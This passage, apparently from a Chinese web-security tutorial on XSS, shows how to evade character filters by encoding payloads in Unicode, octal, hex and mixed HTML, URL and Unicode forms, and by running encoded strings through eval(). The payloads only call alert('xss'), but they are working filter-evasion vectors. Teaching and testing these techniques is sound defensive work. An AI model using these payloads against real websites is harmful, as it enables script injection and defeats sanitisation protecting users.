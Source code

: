 [![img](../../images/20210523094715-cce8331a-bb68-1.png)](./谭谈 XSS 那些世人皆知的事 - 先知社区_files/20210523094715-cce8331a-bb68-1.png)

此时如果过滤了 `<`、`>`、`'`、`"`、`&`、`%` 等等这些字符的话，我们便可以用JavaScript编码的方法将XSS向量全部编码，即 `<iframe src=javascript:alert('xss')></iframe>` 的以下编码都可以弹窗：

```html
// Unicode编码
\u003C\u0069\u0066\u0072\u0061\u006D\u0065\u0020\u0073\u0072\u0063\u003D\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003A\u0061\u006C\u0065\u0072\u0074\u0028\u0027\u0078\u0073\u0073\u0027\u0029\u003E\u003C\u002F\u0069\u0066\u0072\u0061\u006D\u0065\u003E

// 八进制编码
\74\151\146\162\141\155\145\40\163\162\143\75\152\141\166\141\163\143\162\151\160\164\72\141\154\145\162\164\50\47\170\163\163\47\51\76\74\57\151\146\162\141\155\145\76

// 十六进制编码
\x3c\x69\x66\x72\x61\x6d\x65\x20\x73\x72\x63\x3d\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3a\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29\x3e\x3c\x2f\x69\x66\x72\x61\x6d\x65\x3e
```

还有一种让八进制和十六进制编码的XSS攻击向量执行的方式便是将XSS向量放在某个能把字符串当做JavaScript代码来执行的函数里，比如eval()、setTimeout()、setInterval()等函数。如下示例：

- `<script>alert("xss")</script>`

```html
<script>eval("\141\154\145\162\164\50\42\170\163\163\42\51")</script>
```

- `<a href=javascript:alert("xss")>test</a>`

```html
<a href=javascript:eval("\x61\x6c\x65\x72\x74\x28\x22\x78\x73\x73\x22\x29")>test</a>
```

- `<img src=x onerror=alert("xss")>`

```html
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>
```

或者也可以直接将一整段js代码编码后放入eval()函数中执行。



### 混合编码

**混合编码就是对一个XSS向量同时进行多种编码，如下示例：**

- `<a href=javascript:alert("xss")>test</a>`

```html
// 对javascript:进行HTML编码, 对alert("xss")进行URL编码
<a href=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;%61%6c%65%72%74%28%22%78%73%73%22%29>test</a>

// 对javascript:进行HTML编码, 对alert进行Unicode编码
<a href=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;\u0061\u006C\u0065\u0072\u0074("xss")>test</a>
```

